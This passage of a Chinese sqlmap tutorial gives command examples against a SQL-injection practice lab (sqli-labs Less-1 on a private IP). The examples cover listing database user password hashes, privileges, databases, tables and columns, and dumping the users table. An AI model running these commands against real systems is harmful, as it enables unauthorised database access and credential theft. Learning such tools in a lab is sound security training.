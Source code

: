 ```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' --passwords
```

## 「--privileges」获取用户权限

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' --privileges
```

> 会显示每个数据库用户所拥有的权限。通常root的权限最多，那么很明显它就是数据库的管理员账号。

## 判断当前数据库是否是管理员账号

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' --is-dba
```

## 「--dbs」列出所有的数据库

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --dbs
```

- 指定数据库/表/字段
1. 「-D」 指定目标「数据库」，单/双引号包裹，常配合其他参数使用。
2. 「-T」 指定目标「表」，单/双引号包裹，常配合其他参数使用。
3. 「-C」 指定目标「字段」，单/双引号包裹，常配合其他参数使用。

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -D 'security' -T 'users' -C 'username' --dump
```

## 「--tables」 列出指定数据库中所有的表

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' -D security --tables
```

## 「--columns」 列出指定数据库中的表的全部列

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' -D security -T users --columns
```

1. 「--schema」 枚举DBMS模式获取字段类型，可以指定库或指定表。不指定则获取数据库中所有字段的类型。
2. 「--dump」 转储DBMS数据库表条目（当前数据库/表/列中的所有内容）
3. 「--dump-all」  转储所有DBMS数据库表条目（爆出整个mysql数据库的数据内容）
4. 「--hostname」获取主机名称

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' --hostname
```
